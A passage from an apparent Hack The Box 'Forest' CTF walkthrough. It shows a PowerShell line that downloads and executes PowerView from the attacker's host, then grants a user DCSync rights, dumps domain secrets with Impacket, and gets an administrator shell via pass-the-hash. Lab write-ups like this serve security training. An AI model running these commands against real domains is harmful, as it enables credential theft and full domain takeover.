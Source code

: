 Next up, load up PowerView to grant `austin` his DCSync rights!

```
PS C:\Users\svc-alfresco\appdata> iex (new-object net.webclient).downloadstring('http://10.10.14.192/pv.ps1')
PS C:\Users\svc-alfresco\appdata> Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity austin -Rights DCSync
```

With that, we should be able to dump the secrets with Impacket's `secretdump.py`.

<a class="image-popup">
![5f33bf31.png](/assets/images/posts/forest-htb-walkthrough/5f33bf31.png)
</a>

Armed with the `administrator`'s hash, we can use Impacket's `smbexec.py` to get a privileged shell.

<a class="image-popup">
![72153db6.png](/assets/images/posts/forest-htb-walkthrough/72153db6.png)
</a>

Getting `root.txt` is trivial.

<a class="image-popup">
![85476e0a.png](/assets/images/posts/forest-htb-walkthrough/85476e0a.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/212
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/2984
[4]: https://www.hackthebox.eu/

